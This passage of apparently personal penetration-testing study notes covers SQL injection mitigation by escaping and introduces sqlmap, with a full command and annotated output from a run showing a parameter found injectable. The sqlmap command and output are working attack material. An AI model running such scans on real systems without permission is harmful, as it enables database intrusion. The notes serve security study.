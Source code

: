 ## Mitigation

Injection can be avoided by sanitizing any user input, rendering injected queries useless.

There are Libraries to help you escape special characters. Libraries like:

[mysqli_real_escape_string()](https://www.php.net/manual/en/mysqli.real-escape-string.php)

[pg_escape_string()](https://www.php.net/manual/en/function.pg-escape-string.php)


# **SQLMap 🛠**

## What is it:

penetration testing tool written in Python that automates the process of detecting and exploiting SQL injection (SQLi) flaws.

## How to use:

`sqlmap -u "<URL>" --batch`

option `-u` is used to provide the target URL, while the switch `--batch` is used for skipping any required user-input, by automatically choosing using the default option.

**Deconstructing the output**

```
Eli90@htb[/htb]$ sqlmap -u "http://www.example.com/vuln.php?id=1" --batch        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.9}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 22:26:45 /2020-09-09/

[22:26:45] [INFO] testing connection to the target URL
[22:26:45] [INFO] testing if the target URL content is stable
[22:26:46] [INFO] **target URL content is stable [1 - see notes]**
[22:26:46] [INFO] testing if GET parameter 'id' is dynamic
[22:26:46] [INFO] **GET parameter 'id' appears to be dynamic [2]**
[22:26:46] [INFO] **heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL') [3]**
[22:26:46] [INFO] **heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks**
[22:26:46] [INFO] testing for SQL injection on GET parameter 'id'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y **[4]**
[22:26:46] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[22:26:46] [WARNING] **reflective value(s) found and filtering out [5]**
[22:26:46] [INFO] **GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther") [6]**
[22:26:46] [INFO] testing 'Generic inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[22:26:46] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
...SNIP...
[22:26:46] [INFO] GET parameter 'id' is 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)' injectable
[22:26:46] [INFO] testing 'MySQL inline queries'
[22:26:46] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
```